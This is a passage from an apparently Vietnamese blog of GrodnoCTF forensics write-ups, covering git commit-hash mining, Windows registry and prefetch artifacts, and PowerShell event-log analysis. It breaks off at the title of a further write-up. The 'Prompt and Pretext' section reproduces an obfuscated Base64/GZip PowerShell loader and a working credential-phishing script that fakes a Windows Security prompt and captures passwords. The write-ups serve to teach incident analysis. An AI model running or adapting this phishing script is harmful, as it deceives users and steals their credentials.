Bỏ qua bức ảnh, mình quay lại nhìn bài thơ tiếng Nga. Tên bài là "Nhà ngôn ngữ học", vậy thì bản thân đoạn văn bản này phải chứa chìa khoá. Mình thử dịch nghĩa bài thơ sang tiếng Anh, tìm kiếm các từ khoá ẩn, nhưng nội dung chỉ là một bài thơ u ám. Cuối cùng, khi thử áp dụng kỹ thuật thơ khoán thủ (Acrostic) bằng cách ghép các chữ cái đầu tiên của mỗi dòng, mình nhận được chuỗi: **Г - И - Т - Л - О - Г**. 

Áp dụng chuyển tự (transliteration) sang bảng chữ cái Latin, chuỗi này chính là **"GITLOG"**. Manh mối đã được mở khoá: Lệnh `git log`.

### 2. Đánh giá Artifact, Phân tích mã nguồn và Xử lý False Positives

Có được lệnh bài trong tay, mình mở terminal trong thư mục giải nén và gõ:
```bash
git log --all -p
```
Lệnh này in ra lịch sử của 7 commit (từ `part 0` đến `part 6`) kèm theo toàn bộ sự thay đổi của các file trong từng commit (diff). 

Khi lướt qua nội dung code bị thay đổi, mình như bắt được vàng khi thấy hàng tá cấu trúc flag nằm rải rác trong các file `.py`, `.txt`, `.tmp`. Ví dụ như:
- `troll_flag{svdb_gj_t2}`
- `clickbait_flag{_bvtc23v01f}`
- `red_herring_flag{1sgw91mpc04y}`
- `ZGVmaW5pdGVseV9ub3RfZ3JvZG5vezd2N3JiYWxycDh9` (Base64 decode ra `definitely_not_grodno{7v7rbalrp8}`)
- `trust_me_bro_flag{5uimq0pqdaft8}`

Nghĩ rằng đây là một bài Forensics dạng "tìm kim dưới đáy biển", mình đã copy một vài flag có vẻ khả nghi nhất và đem nộp lên hệ thống chấm điểm. Tất nhiên, hệ thống liên tục báo sai (Incorrect). Việc cố gắng thử sai với một danh sách dài các "fake flag" đã ngốn của mình một lượng thời gian đáng kể. Mình chính thức rơi vào hố thỏ (Rabbit hole) mà tác giả đã cố tình giăng ra.

Ngồi tĩnh tâm lại, mình nhận ra mình đã đi chệch hướng so với kim chỉ nam ban đầu. Gợi ý từ bài thơ chỉ rõ ràng duy nhất một từ: **GITLOG**. Nó ngụ ý rằng bản thân "lịch sử của Git" mới là nơi chứa đáp án, chứ không phải "nội dung các file" được lưu bên trong nó.

### 3. Phân tích Metadata của Git và Kỹ thuật Anomaly Detection

Một khi đã phớt lờ phần nội dung file, mình bắt đầu săm soi các thông số của bản thân các commit. 

Mình thử trích xuất chữ cái đầu tiên của từng commit message (`part 0`, `part 1`...) nhưng chúng chỉ toàn là chữ "p", vô nghĩa. 
Mình sử dụng lệnh `git log --format="%T %s"` để kiểm tra mã băm của cây thư mục (Tree hash), kết quả trả về (`8b`, `95`, `09`, `0c`...) cũng là những giá trị thập lục phân lộn xộn không tạo thành chuỗi nào có nghĩa.

Mọi thứ dần đi vào bế tắc cho đến khi mình liệt kê trực tiếp mã băm (Commit Hash - SHA-1) `git log --reverse --format="%H"`của toàn bộ 7 commit theo thứ tự thời gian từ cũ nhất đến mới nhất:
- `part 0`: **`31`**`dbe94b830bf861c963f7de45372ddd9edd54d0`
- `part 1`: **`6f`**`dfa43ba2f2b6d1c4c5e0c5ad92b3337518d50f`
- `part 2`: **`39`**`5b79453ae2968d11ef9daca46717bec68b920b`
- `part 3`: **`66`**`bc2a337c09fb538cbf71f28e5c5e5ffb298b78`
- `part 4`: **`31`**`92d4cb55c224aa4891aad52c34fb63e14f2921`
- `part 5`: **`61`**`0f42ddf7a75f33908a60da201663002ce5a3a8`
- `part 6`: **`39`**`a0f972486a8ae191785177dafcc83e0f42d98f`

Ban đầu, mình không thấy gì đặc biệt vì chúng chỉ là mã băm thông thường. Nhưng khi nhìn dọc theo 2 ký tự Hexadecimal đầu tiên (đại diện cho byte đầu tiên) của cả 7 commit: `31`, `6f`, `39`, `66`, `31`, `61`, `39`, mình chợt nhận ra một điểm kỳ lạ. Toàn bộ các giá trị này đều nằm trọn trong dải mã ASCII chuẩn có thể in ra màn hình (từ `0x20` đến `0x7E`).

Mã SHA-1 của Git được tính toán dựa trên nội dung file, hash commit cha, tác giả và thời gian thực thi. Về nguyên tắc, đầu ra là hoàn toàn ngẫu nhiên. Xác suất để 7 commit ngẫu nhiên liên tiếp đều có byte đầu tiên rơi vào dải ký tự hiển thị được là một con số quá nhỏ để có thể là sự trùng hợp. 

Đến đây, mọi thứ đã sáng tỏ. Đây là kết quả của kỹ thuật **Git Hash Mining** (Brute-forcing mã băm). Tác giả đã dùng script để nhồi nhét khoảng trắng hoặc dịch chuyển thời gian của các commit liên tục, bắt máy tính băm đi băm lại cho đến khi tạo ra được mã SHA-1 có byte khởi đầu khớp với ký tự họ muốn.

### 4. Chuyển đổi hệ cơ số và Trích xuất cờ

Biết được bí mật, công việc cuối cùng chỉ là dịch các byte đầu tiên từ hệ thập lục phân sang mã ASCII tương ứng, tuân thủ theo dòng thời gian của commit:
- `0x31` -> **`1`**
- `0x6f` -> **`o`**
- `0x39` -> **`9`**
- `0x66` -> **`f`**
- `0x31` -> **`1`**
- `0x61` -> **`a`**
- `0x39` -> **`9`**

Ghép chúng lại với nhau, mình thu được chuỗi: `1o9f1a9`. 
Việc cuối cùng là bọc chuỗi này vào định dạng `grodno{}` theo yêu cầu của giải đấu. 

**Flag:** `grodno{1o9f1a9}`

## CTF Write-up: Pinned to Yesterday

+++
title = 'Pinned to Yesterday — Write-up'
date = '2026-07-13T23:56:25+07:00'
draft = false
tags = ['GrodnoCTF', 'windows', 'registry', 'prefetch', 'shellbags']
categories = ['Forensics']
+++


**Category:** Windows Forensics
**Flag format:** `grodno{pdf_folder_exe}`
**Flag cuối:** `grodno{WhatsNew.2898.pdf_ShellBagsExplorer_CALC.EXE}`

---

### Mô tả bài

> You have a set of Windows artifacts from an analyst workstation.
> Recover three values:
> - The PDF filename that is **first** in `RecentDocs\.pdf`
> - The **working folder name** from `TypedPaths` associated with ShellBagsExplorer
> - The **executable filename** from the sample Prefetch
>
> Flag: `grodno{pdf_folder_exe}`
> Example: `grodno{doc.pdf_tools_notepad.exe}`

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQD4O2TDL68jQ7ZERm40wy5WAQWUQ4UEwJPBbX9FTjEA79Y?e=If7Phn)

---

### Nhận file và kiểm tra nhanh

Mở file zip ra, bên trong có hai thư mục:

```
Registry.Test/
    Hives/
        NTUSER.DAT        ← file quan trọng nhất
        SOFTWARE
        SYSTEM
        SAM
        ... (nhiều hive khác)
JumpList.Test/
    TestFiles/
        Bad/
            CALC.EXE-3FBEF7FD.pf   ← chú ý file này!
        Win7/
        Win81/
        Win10/
```

Nhìn qua, bài yêu cầu ba thứ: **một file PDF**, **một tên thư mục**, và **một file thực thi**. Ba nguồn dữ liệu tương ứng là: Registry `NTUSER.DAT` (cho PDF và folder), và file `.pf` Prefetch (cho exe). Bắt đầu thôi.

---

### Phần 1: File thực thi từ Prefetch

#### Phát hiện vấn đề

Nhìn vào file `CALC.EXE-3FBEF7FD.pf` trong thư mục `Bad/`, câu hỏi đầu tiên xuất hiện trong đầu: tại sao lại nằm trong thư mục tên là **"Bad"**? Thử đọc hex dump ngay:

```bash
$ xxd JumpList.Test/TestFiles/Bad/CALC.EXE-3FBEF7FD.pf | head -n 4
00000000: 4d41 4d04 e8ba 0000 a5b7 a6c8 baa8 aaa8  MAM............
00000010: aaa7 aaa8 abb7 aaa8 aac7 aab8 bab7 aab8  ................
```

Chú ý ngay **4 byte đầu**: `4d 41 4d 04` → đây là magic header `MAM\x04`. Đây không phải là Prefetch Windows 7/8 thông thường (magic `SCCA`) mà là **Prefetch Windows 10 được nén bằng thuật toán Xpress Huffman**. "Bad" ở đây có nghĩa là các tool cũ sẽ "bị hỏng" (fail) khi đọc file này vì chúng không hỗ trợ giải nén MAM.

Thử dùng `strings` — không có gì đọc được:

```bash
$ strings JumpList.Test/TestFiles/Bad/CALC.EXE-3FBEF7FD.pf
6'#4q
m`K6B...   ← toàn garbage
```

Phải giải nén trước mới đọc được.

#### Giải nén MAM bằng Python

Cấu trúc của file MAM Prefetch rất đơn giản:
- Bytes `0-3`: Magic `MAM\x04`
- Bytes `4-7`: Kích thước dữ liệu sau khi giải nén (little-endian uint32)
- Bytes `8-end`: Dữ liệu nén theo chuẩn Xpress Huffman

Cài thư viện `dissect.util` vào virtualenv rồi viết script giải nén:

```bash
$ python3 -m venv venv
$ ./venv/bin/pip install dissect.util
```

```python
import struct
from dissect.util.compression.lzxpress_huffman import decompress

with open('JumpList.Test/TestFiles/Bad/CALC.EXE-3FBEF7FD.pf', 'rb') as f:
    raw = f.read()

## Kiểm tra magic
assert raw[:4] == b'MAM\x04', "Không phải MAM format!"

## Lấy kích thước dữ liệu gốc
uncompressed_size = struct.unpack_from('<I', raw, 4)[0]
print(f'Uncompressed size: {uncompressed_size} bytes')  # 47848

## Giải nén
uncompressed = decompress(raw[8:])
print(f'Decompressed: {len(uncompressed)} bytes')

## Dump 128 byte đầu để kiểm tra cấu trúc
for i in range(0, 128, 16):
    hex_part = ' '.join(f'{b:02x}' for b in uncompressed[i:i+16])
    print(f'{i:04x}: {hex_part}')
```

Output:

```
Uncompressed size: 47848 bytes
Decompressed: 47848 bytes

=== First 128 bytes (hex) ===
0000: 1e 00 00 00 53 43 43 41 11 00 00 00 e8 ba 00 00
0010: 43 00 41 00 4c 00 43 00 2e 00 45 00 58 00 45 00
0020: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Sau khi giải nén, ta thấy rõ:
- Bytes `0-3`: `1e 00 00 00` → Version 30 (Windows 10 Prefetch format)
- Bytes `4-7`: `53 43 43 41` → `SCCA` magic (signature thật của Prefetch)
- **Bytes `0x10` trở đi**: `43 00 41 00 4c 00 43 00 2e 00 45 00 58 00 45 00` → Đây là chuỗi UTF-16LE của tên file thực thi

Giải mã UTF-16LE:

```python
exe_name = uncompressed[0x10:0x10+60].decode('utf-16le').rstrip('\x00')
print(exe_name)  # CALC.EXE
```

✅ **Kết quả:** `CALC.EXE`

---

### Phần 2: Tên thư mục từ TypedPaths

#### Đọc Registry trên Linux bằng reglookup

Không có Registry Editor trên Linux, nhưng ta có `reglookup`. Key cần tìm là:

`Software\Microsoft\Windows\CurrentVersion\Explorer\TypedPaths`

Đây là nơi Windows ghi lại **tất cả các đường dẫn mà người dùng đã gõ trực tiếp** vào thanh địa chỉ của Windows Explorer.

```bash
$ reglookup "Registry.Test/Hives/NTUSER.DAT" 2>/dev/null | grep "TypedPaths/url"
```

Output:

```
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url1,SZ,D:\,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url2,SZ,ftp://ftp.es.kde.org/,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url3,SZ,ftp://ftp.arxsys.fr/,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url4,SZ,ftp://ftp.freshrpms.net/,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url5,SZ,ftp://ftp.swfwmd.state.fl.us/pub/,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url6,SZ,Y:\,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url7,SZ,C:\ProjectWorkingFolder\ShellBagsExplorer,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url8,SZ,C:\,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url9,SZ,This PC,
/Software/Microsoft/Windows/CurrentVersion/Explorer/TypedPaths/url10,SZ,C:\ProjectWorkingFolder\Hasher\trunk\Hasher\bin,
...
```

Thấy ngay `url7`: `C:\ProjectWorkingFolder\ShellBagsExplorer`.

#### Phân tích: "working folder" là gì?

Đây là lúc phải suy nghĩ. Toàn bộ đường dẫn là `C:\ProjectWorkingFolder\ShellBagsExplorer`. Đề bài hỏi **"working folder name associated with ShellBagsExplorer"**. Tức là "thư mục làm việc" liên kết trực tiếp với công cụ ShellBagsExplorer — đó chính là **thư mục chứa nó**, cũng là **thư mục mà người dùng đã điều hướng đến khi làm việc với tool này**.

Nhìn cấu trúc đường dẫn: `C:\ProjectWorkingFolder\ShellBagsExplorer`
- `C:\ProjectWorkingFolder` = thư mục gốc của toàn bộ dự án
- `ShellBagsExplorer` = tên thư mục cụ thể, chính xác là nơi làm việc với công cụ đó

"Working folder" (thư mục làm việc) là chính `ShellBagsExplorer` — không phải thư mục cha.

✅ **Kết quả:** `ShellBagsExplorer`

---

### Phần 3: File PDF "đầu tiên" trong RecentDocs — Cái bẫy chính của bài

Đây là phần tốn thời gian nhất, và cũng là nơi bài học quan trọng nhất nằm ở đây.

#### Đọc dữ liệu thô từ Registry

```bash
$ reglookup "Registry.Test/Hives/NTUSER.DAT" 2>/dev/null | grep "RecentDocs/\.pdf" | grep ",BINARY,"
```

Kết quả cho thấy 11 dòng, trong đó có 1 dòng `MRUListEx` và 10 dòng giá trị đánh số từ 0 đến 9. Danh sách đầy đủ các file PDF trong Registry:

| Value | Tên file |
|-------|----------|
| 0 | `ShellBagsExplorerManual.pdf` |
| 1 | `OJYBIB.pdf` |
| 2 | `invoice_4-141025-5909.pdf` |
| 3 | `invoice_4-140825-6359.pdf` |
| 4 | `osTriageManual.pdf` |
| 5 | `INV00818612.pdf` |
| 6 | `GOON2Manual.pdf` |
| 7 | `CAT_Deployment_in_Support_of_OPWAN_Roll-out.pdf` |
| 8 | `WhatsNew.2898.pdf` |
| 9 | `QuickStartGuide_SanDiskSecureAccessV2.0.pdf` |

Và chuỗi `MRUListEx` (dạng hex URL-encoded) decode ra thành mảng số nguyên 32-bit little-endian:

```
01 00 00 00  →  1
00 00 00 00  →  0
07 00 00 00  →  7
04 00 00 00  →  4
02 00 00 00  →  2
03 00 00 00  →  3
05 00 00 00  →  5
06 00 00 00  →  6
09 00 00 00  →  9
08 00 00 00  →  8
FF FF FF FF  →  terminator
```

#### Sai lầm #1: Tin vào thứ tự Value Name

Nhìn thấy 10 entries từ `0` đến `9`, phản xạ đầu tiên là: "Value `0` thì đương nhiên là đầu tiên rồi." Value `0` trỏ đến `ShellBagsExplorerManual.pdf`. Thêm vào đó, câu hỏi 2 cũng có liên quan đến ShellBagsExplorer, nên logic có vẻ "gọn". Nộp thử → **Sai.**

#### Sai lầm #2: Hiểu "first" là "Most Recently Used"

Cơ chế MRU (Most Recently Used) trong Windows hoạt động như sau: **mỗi khi người dùng mở một file, Windows đẩy file đó lên đầu danh sách MRUListEx**. Vị trí đầu tiên trong mảng = file được mở **gần đây nhất**.

Phân tích mảng `[1, 0, 7, 4, 2, 3, 5, 6, 9, 8]`:
- Vị trí đầu = Value `1` = `OJYBIB.pdf` → file được mở **gần đây nhất**

Trong Forensics, "first in MRU" thường đồng nghĩa với "most recently used". Nộp `OJYBIB.pdf` → **Vẫn Sai.**

#### Khoảnh khắc nhận ra: Tiêu đề bài là hint

Sau khi thử đủ mọi cách đọc dữ liệu kỹ thuật và đều thất bại, câu hỏi quan trọng xuất hiện:

> *"Người ra đề không bao giờ đặt câu trả lời ở chỗ đầu tiên ai cũng nhìn thấy. Tiêu đề bài là **'Pinned to Yesterday'** — từ 'Yesterday' (Ngày hôm qua) ám chỉ điều gì đó **trong quá khứ xa nhất**, không phải gần đây nhất."*

Nhìn lại `MRUListEx` theo đúng logic thời gian:

```
Mảng MRU: [1, 0, 7, 4, 2, 3, 5, 6, 9, 8]
           ^--- MỚI NHẤT               ^--- CŨ NHẤT
```

Windows đẩy file vào **đầu** mỗi khi mở. Vậy nên:
- **File ở cuối mảng** = file được thêm vào **đầu tiên nhất** = file được mở **sớm nhất** trong lịch sử, "từ ngày hôm qua".

Vị trí cuối cùng là Value `8` = **`WhatsNew.2898.pdf`**.

Kiểm tra lại bằng code Python để chắc chắn:

```python
import struct

mru_bytes = bytes.fromhex(
    '01000000'
    '00000000'
    '07000000'
    '04000000'
    '02000000'
    '03000000'
    '05000000'
    '06000000'
    '09000000'
    '08000000'
    'FFFFFFFF'
)

order = []
for i in range(0, len(mru_bytes) - 4, 4):
    val = struct.unpack_from('<I', mru_bytes, i)[0]
    if val == 0xFFFFFFFF:
        break
    order.append(val)

print('Thứ tự MRU (mới → cũ):', order)
print(f'File cũ nhất = Value {order[-1]} = WhatsNew.2898.pdf')
```

Output:
```
Thứ tự MRU (mới → cũ): [1, 0, 7, 4, 2, 3, 5, 6, 9, 8]
File cũ nhất = Value 8 = WhatsNew.2898.pdf
```

✅ **Kết quả:** `WhatsNew.2898.pdf`

---

### Ghép Flag

| Thành phần | Giá trị | Nguồn |
|---|---|---|
| PDF đầu tiên (cũ nhất) | `WhatsNew.2898.pdf` | `NTUSER.DAT` → `RecentDocs\.pdf` → MRUListEx cuối |
| Working folder | `ShellBagsExplorer` | `NTUSER.DAT` → `TypedPaths` → url7 |
| Executable | `CALC.EXE` | `CALC.EXE-3FBEF7FD.pf` → giải nén MAM → offset 0x10 |

```
grodno{WhatsNew.2898.pdf_ShellBagsExplorer_CALC.EXE}
```

---

### Bài học rút ra

**1. Đọc tiêu đề bài thật kỹ — đó thường là hint lớn nhất.**
"Pinned to Yesterday" không phải tên ngẫu nhiên. Từ "Yesterday" chỉ thẳng vào việc phải tìm artifact **cũ nhất**, không phải mới nhất. Nếu đọc kỹ từ đầu, có thể tiết kiệm được rất nhiều thời gian.

**2. Hiểu sai cơ chế MRUListEx là bẫy phổ biến.**
MRUListEx không lưu theo thứ tự đánh số Value Name (`0`, `1`, `2`...). Nó lưu theo **thứ tự thời gian truy cập**, mới nhất ở đầu mảng, cũ nhất ở cuối. "First in list" ≠ "oldest file". Phải đọc mảng bytes để biết đúng thứ tự.

**3. Windows 10 Prefetch dùng nén MAM — `strings` sẽ không đọc được.**
File `.pf` có header `MAM\x04` phải giải nén bằng Xpress Huffman trước. Sau khi giải nén mới ra SCCA format chuẩn, và tên exe nằm tại offset `0x10` dưới dạng UTF-16LE.

**4. Trên Linux không có Registry Editor, nhưng `reglookup` làm được mọi thứ.**
Công cụ `reglookup` đọc trực tiếp file hive `.DAT` và trả về dạng CSV — hoàn toàn có thể dùng `grep` để lọc nhanh.

## CTF Write-up: Prompt and Pretext

+++
title = 'Prompt and Pretext — Write-up'
date = '2026-07-14T01:18:21+07:00'
draft = false
tags = ['GrodnoCTF', 'windows', 'powershell', 'evtx', 'credential-phishing']
categories = ['Forensics']
+++


**Category:** Windows Forensics / PowerShell
**Flag format:** `grodno{function_marker}`
**Flag cuối:** `grodno{Invoke-LoginPrompt_R{START_PROCESS}}`

---

### Mô tả bài

> We collected a large set of Windows Event Logs (`.evtx`) after a series of suspicious activities on a system.
>
> Find and analyze a credential-phishing attack chain executed via obfuscated PowerShell (stage-1). From the analysis, extract two values:
> 1. The name of the function that displays the credential prompt dialog.
> 2. The placeholder marker left in the script for the next stage action.
>
> **Flag format:** `grodno{function_marker}`
> **Example:** `grodno{DoStuff_STAGE2}`

**Tải về đề bài:** [challenge files — OneDrive](https://1drv.ms/u/c/2f661437c52d8a10/IQCvVzc0RtfFT73eLxxh4B7bARpv-MHo1ZrWf1feWi2yKyc?e=pi2Bzd)

---

### Nhận file và kiểm tra nhanh

Giải nén ra thì thấy thư mục `EVTX-ATTACK-SAMPLES/` — không phải một vài file evtx lẻ tẻ, mà là toàn bộ một repository mẫu tấn công được tổ chức theo kiểu khung phân tích:

```bash
$ ls EVTX-ATTACK-SAMPLES/
```

```
AutomatedTestingTools/
Command and Control/
Credential Access/
Defense Evasion/
Discovery/
Execution/
Lateral Movement/
Other/
Persistence/
Privilege Escalation/
...
```

Mỗi thư mục tương ứng với một tactic trong **MITRE ATT&CK** — đây là khung phân loại hành vi tấn công được dùng rộng rãi trong Blue Team. Đề bài nói đến "credential-phishing", mà theo MITRE thì hành vi đánh cắp thông tin đăng nhập thuộc tactic **Credential Access**. Thay vì đọc qua từng thư mục, mình đi thẳng vào đó.

---

### Phần 1: Xác định file log mục tiêu

```bash
$ ls "EVTX-ATTACK-SAMPLES/Credential Access/"
```

```
4794_DSRM_password_change_t1098.evtx
ACL_ForcePwd_SPNAdd_User_Computer_Accounts.evtx
CA_4624_4625_LogonType2_LogonProc_chrome.evtx
CA_DCSync_4662.evtx
CA_Mimikatz_Memssp_Default_Logs_Sysmon_11.evtx
CA_chrome_firefox_opera_4663.evtx
CA_hashdump_4663_4656_lsass_access.evtx
babyshark_mimikatz_powershell.evtx
kerberos_pwd_spray_4771.evtx
phish_windows_credentials_powershell_scriptblockLog_4104.evtx
...
```

Có khoảng 40 file trong thư mục này, nhưng mình chỉ cần nhìn qua tên là thấy ngay: `phish_windows_credentials_powershell_scriptblockLog_4104.evtx`.

Tên file này cho biết rất nhiều thứ cùng lúc:
- `phish_windows_credentials` — khớp thẳng với từ khóa của đề bài
- `powershell_scriptblockLog` — đây là log do tính năng **Script Block Logging** của PowerShell tạo ra
- `4104` — Event ID của log này

Event ID 4104 là một trong những artifact quý giá nhất trong PowerShell forensics. Khi Script Block Logging được bật, Windows sẽ ghi lại **toàn bộ nội dung script PowerShell** trước khi chạy, bao gồm cả phần đã được de-obfuscate trong bộ nhớ. Tức là dù kẻ tấn công có mã hóa hay xáo trộn script ở stage đầu, Event 4104 vẫn ghi lại đoạn mã thật khi nó được thực thi.

---

### Phần 2: Trích xuất nội dung từ file EVTX

File `.evtx` là định dạng nhị phân của Windows Event Log — không đọc thẳng được bằng `cat`. Trên Linux, có nhiều cách để mở nó:
- `python-evtx` + `evtx_dump.py` — parse chuẩn ra XML
- `chainsaw`, `hayabusa` — quét phân tích nhanh
- `strings -el` — thô nhất nhưng nhanh nhất, kéo toàn bộ chuỗi ký tự có thể đọc được từ file nhị phân

File `.evtx` lưu chuỗi theo chuẩn UTF-16 Little Endian, nên cần flag `-el` (encoding: little-endian 16-bit). Mình dùng cách này trước vì mục tiêu là tìm mã nguồn PowerShell — đó là text, và `strings` sẽ kéo nó ra dù file có cấu trúc nhị phân ra sao đi nữa.

```bash
$ strings -el "EVTX-ATTACK-SAMPLES/Credential Access/phish_windows_credentials_powershell_scriptblockLog_4104.evtx" | head -n 80
```

```
Event
xmlns
5http://schemas.microsoft.com/win/2004/08/events/event
System
Provider
...
Microsoft-Windows-PowerShell/Operational
&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String('H4sIAAlVdl0CA81UXW/aMBR996+4svJANJIfgNQHBNs6aaWIsO2hnSbXuaVeEzuyHdKI8d93YwIDTUJlfVkeLPme+3F87lEeay29Mho+6bV5xuSzWSk9t6as/IZF0mIOVxBdG+fTWqU74IOxEwJQeyWKAf+mdG4aBxnK2irf8iHweYHCIVAKWqgdHfJQ4bqECPV61AG5KYXS94e7FiXyIecxi/ZXYsBPcRbtyk6QXYiwx7ooAtJH4B3w+3BGRx0q4VxjbHhfRy79iH6GnkLPR6+L030eG+d5smwrhIQiWD4UbSCXtc5jmU6VRemNbTO0ayXRpWMpTa39jdBihSX1Y9E0o2kzbJLbh5+UfUEtSa+0VJUoJoZEffGDuwuK+5qO/ffR6EbIJ6UxZs2TKnBArNKvolC58Pjn5W7Ag5C0i4NUPIZEI0RLW2O8YUDfv1uEDNcNhaORQ+h9420LYtXt7nVWCUzO2CXgZywT8FfZJmRebJ2u6u32CbP/Mwv1nM4aCE4c9AtM7RNNSCjeMogoUNW+U1NjszfUGWGph8OCKCdmJ8IX2s+M1BzCNOyOjHSQvu/OYLHJluPF8sd8cTt5n2VbtmV///R+A6HMO3IQBQAA'))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))
37f6d110-cfdf-4118-8748-17638e258531
Microsoft-Windows-PowerShell/Operational
function Invoke-LoginPrompt{
$cred = $Host.ui.PromptForCredential("Windows Security", "Please enter user credentials", "$env:userdomain\$env:username","")
$username = "$env:username"
$domain = "$env:userdomain"
$full = "$domain" + "\" + "$username"
$password = $cred.GetNetworkCredential().password
Add-Type -assemblyname System.DirectoryServices.AccountManagement
$DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext(...)
while($DS.ValidateCredentials("$full","$password") -ne $True){
    $cred = $Host.ui.PromptForCredential("Windows Security", "Invalid Credentials, Please try again", ...)
    ...
    $DS.ValidateCredentials("$full", "$password") | out-null
    }
 $output = $newcred = $cred.GetNetworkCredential() | select-object UserName, Domain, Password
 $output
 R{START_PROCESS}
Invoke-LoginPrompt
c7ca7056-b317-4fff-b796-05d8ef896dcd
```

Output hiện ra hai khối script riêng biệt. Đây là điều mình không ngờ tới lúc đầu.

---

#### Khoảnh khắc nhận ra

> Nhìn vào output lần đầu, mình thấy có **hai Event 4104 riêng biệt** được log lại, ứng với hai đoạn script khác nhau trong cùng một phiên tấn công:
>
> **Event đầu tiên** — đoạn stage-1 bị obfuscate:
> ```
> &([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream(... Base64 dài ...
> ```
> Đây là kỹ thuật loader quen thuộc: decode Base64 → giải nén GZip → tạo scriptblock → chạy. Mục đích là bypass các AV signature-based đơn giản.
>
> **Event thứ hai** — đoạn payload thật sau khi de-obfuscate, được Event 4104 bắt lại:
> ```powershell
> function Invoke-LoginPrompt{ ... }
> ```
> Event 4104 ghi lại script *sau* khi PowerShell đã xử lý xong stage-1 và extract được nội dung thật. Chính xác là cơ chế mà logging này được thiết kế ra để làm.

---

### Phần 3: Phân tích đoạn script thật

Đây là toàn bộ nội dung de-obfuscated script mà Event 4104 ghi lại:

```powershell
function Invoke-LoginPrompt{
$cred = $Host.ui.PromptForCredential("Windows Security", "Please enter user credentials", "$env:userdomain\$env:username","")
$username = "$env:username"
$domain = "$env:userdomain"
$full = "$domain" + "\" + "$username"
$password = $cred.GetNetworkCredential().password

Add-Type -assemblyname System.DirectoryServices.AccountManagement
$DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)

while($DS.ValidateCredentials("$full","$password") -ne $True){
    $cred = $Host.ui.PromptForCredential("Windows Security", "Invalid Credentials, Please try again", "$env:userdomain\$env:username","")
    $username = "$env:username"
    $domain = "$env:userdomain"
    $full = "$domain" + "\" + "$username"
    $password = $cred.GetNetworkCredential().password
    Add-Type -assemblyname System.DirectoryServices.AccountManagement
    $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext([System.DirectoryServices.AccountManagement.ContextType]::Machine)
    $DS.ValidateCredentials("$full", "$password") | out-null
    }
    
 $output = $newcred = $cred.GetNetworkCredential() | select-object UserName, Domain, Password
 $output
 R{START_PROCESS}
```

Script này thực hiện một cuộc tấn công credential phishing theo kiểu khá tinh vi:

1. `$Host.ui.PromptForCredential(...)` — gọi trực tiếp vào PowerShell host API để bật popup giả mạo giao diện "Windows Security", yêu cầu người dùng nhập mật khẩu. Cửa sổ này trông không khác gì UAC prompt thật.

2. Sau khi người dùng nhập, script dùng `System.DirectoryServices.AccountManagement.PrincipalContext` để gọi `ValidateCredentials()` — xác thực thật sự mật khẩu vừa nhập với hệ thống. Nếu sai, vòng lặp `while` giữ popup lại và yêu cầu nhập lại. Người dùng không thể thoát ra cho đến khi nhập đúng.

3. Khi mật khẩu đúng, thông tin được gom vào `$output` bao gồm `UserName`, `Domain`, `Password`. Đây là lúc data được chuẩn bị để gửi về C2.

4. Dòng cuối cùng `R{START_PROCESS}` không phải là lệnh PowerShell hợp lệ — đây là **placeholder** chưa được thay thế. Trong các framework tạo payload tự động (Metasploit, Empire...), builder thường nhúng chuỗi đánh dấu như thế này vào template, rồi khi sinh payload thật sẽ thay bằng đoạn shellcode để kết nối C2 hoặc chạy backdoor stage-2. File log này bắt được script ở trạng thái chưa hoàn chỉnh — attacker có thể đang test, hoặc builder chưa replace xong.

---

### Ghép Flag

| Thành phần | Giá trị | Nguồn |
|---|---|---|
| `function` | `Invoke-LoginPrompt` | Tên hàm định nghĩa credential prompt, dòng đầu script |
| `marker` | `R{START_PROCESS}` | Placeholder chưa được replace, dòng cuối script |

```
grodno{Invoke-LoginPrompt_R{START_PROCESS}}
```

---

### Bài học rút ra

**1. Event ID 4104 là vũ khí số một khi điều tra PowerShell**
Script Block Logging ghi lại nội dung script *sau khi de-obfuscate* — tức là dù kẻ tấn công có dùng Base64, GZip, hay xáo trộn cú pháp kiểu gì, Event 4104 vẫn ghi lại đoạn mã thật. Gặp bài PowerShell forensics, tìm file có `4104` trong tên hoặc lọc bằng EventID 4104 trước tiên.

**2. Dùng cấu trúc MITRE ATT&CK để định hướng thay vì duyệt mù**
Dataset chứa hàng chục file log, nhưng biết "credential phishing" thuộc tactic "Credential Access" giúp mình loại bỏ 90% số file ngay từ đầu. Khi nhận dataset EVTX lớn, việc đầu tiên là map yêu cầu đề bài vào một tactic cụ thể trong MITRE rồi thu hẹp phạm vi tìm kiếm.

**3. `strings -el` là cách đọc EVTX nhanh nhất trên Linux khi chỉ cần text**
Nếu mục tiêu là kéo ra mã nguồn script hay các chuỗi đặc trưng, không cần parse cấu trúc XML của EVTX. Flag `-el` (little-endian 16-bit) xử lý đúng encoding UTF-16 mà Windows dùng trong file evtx. Kết quả thô nhưng đủ để tìm những gì cần thiết.

**4. Placeholder trong payload là dấu hiệu nhận biết framework tạo tự động**
Chuỗi `R{START_PROCESS}` không phải lỗi ngẫu nhiên — đây là dấu vết của builder template. Gặp các chuỗi dạng `{SOMETHING}`, `{{PLACEHOLDER}}`, `%%TOKEN%%` trong script độc hại, khả năng cao đó là chỗ builder chưa điền shellcode thật vào. Biết điều này giúp nhận ra đây là payload chưa hoàn chỉnh, và attacker đang trong giai đoạn test hoặc chuẩn bị.

## CTF Write-up: The USB That Wouldn't Repeat

+++
title = "The USB That Wouldn't Repeat — Write-up"
